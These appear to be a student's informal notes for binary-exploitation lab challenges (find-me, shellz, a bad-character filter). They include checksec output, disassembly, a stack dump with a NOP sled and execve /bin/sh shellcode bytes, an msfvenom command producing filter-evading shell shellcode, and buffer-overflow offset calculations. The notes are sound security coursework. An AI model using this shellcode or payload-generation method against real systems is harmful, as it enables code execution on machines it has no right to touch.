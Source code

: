 Find-me:

 checksec find-me
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/k-730/.cache/.pwntools-cache-3.13/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.14.1)
[*] '/home/k-730/COMP6447/wk3/find-me'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

00401352  4883ec40           sub     rsp, 0x40
=> So stack frame is most likely 0x40 = 64 bytes
Stack frame always changing!

Our stack is at:
contents is printed at $rbp-0x30

Bad chars are 0xf,0x5! We cant use syscall!

This means we have to use the opened fd
file discriptor to read the contents of the flag!! From file descriptor

Should the small shellcode look for the bigger shellcode? YES!

Interesting, another file descriptor for the flag is opened @0x0040158c! Perhaps we must use this!

flag size is 190 bytes

Big buffer is: location is at:
b *main+1006

# 0x7fb5dc353fda

This is higher in memory! Than the smallbuff

small buff has to be less than or equal to 28 bytes. Otherwise big shellcode is lost

SHellz:

└─$ checksec shellz
[*] '/home/k-730/COMP6447/wk3/shellz'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

printf("Here is a random stack address: …", (int64_t)(rand() % 500) + &buf, &buf);
So stack is located at:
stack = leaked_stack + random
somewhere!

Now rsp is 0x2000 = 8192 bytes in size

possible attack paths
OMFG i just have to loop thru 500 of the bytes to find the buffer address
Use the c rand function in python to try and get the flag.

Best way is to predict the rand:

Predict rand() (best)

These instructions fuzz the random:
0040125e  4863d0             movsxd  rdx, eax                   0x3e92da52
00401261  4869d2d34d6210     imul    rdx, rdx, 0x10624dd3       0x3e92da52 *0x10624dd3 = 0x40134e2_72189b96
00401268  48c1ea20           shr     rdx, 0x20                  0x40134e2 =  0x40134e2_00000000
0040126c  c1fa05             sar     edx, 0x5                   0x2009a7
0040126f  89c1               mov     ecx, eax                   ecx = 0x3e92da52
00401271  c1f91f             sar     ecx, 0x1f(31)              ecx = 0x0 (Could be 1 or 0)!
00401274  29ca               sub     edx, ecx                   edx - ecx (1 or 0)
00401276  69caf4010000       imul    ecx, edx, 0x1f4            ecx = edx* (500)
0040127c  29c8               sub     eax, ecx
0040127e  89c2               mov     edx, eax
00401280  4863c2             movsxd  rax, edx
00401283  488d9500e0ffff     lea     rdx, [rbp-0x2000 {buf}]
0040128a  4801d0             add     rax, rdx {buf}

Example:
0x3e92da52
0x3e92da52 * 0x10624dd3 = 0x40134e272189b96
0x40134e2

x/80gx $rsp
0x7ffd5fdaec60: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec70: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec80: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec90: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaeca0: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaecb0: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaecc0: 0x2fbf4856f6314890      0x5768732f2f6e6962
0x7ffd5fdaecd0: 0x050f99583b6a5f54      0x00007ffd5fdace2c

pwndbg> x/4gx $rbp
0x7ffd5fdaecd0: 0x050f99583b6a5f54      0x00007ffd5fdace2c

WTF why does the order of the payload matter?

WAF:
Badchars: abcdefghijklmonpqurtsABCD/binshh
Need to create shellcode that avoids these characters

msfvenom -p 'linux/x64/exec' CMD=bin/sh --arch x64 -b '\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6F\x6E\x70\x71\x75\x72\x74\x73\x41\x42\x43\x44\x2F\x62\x69\x6E\x73\x68\x68' -f python

Send these characters over to the buffer.

frame size = 0x110
RIP = 8

Therefore buff attack size = 0x110 + 8 = 0x118 bytes

Please pad the shellcode with NOPS just in case!

SIMPLE:

Open file descriptor = 1000
Read contents from fd
write into the buffer
make the shellcode do this:

read(fd, buff, size)
write(1, buf, nread)
exit(0)
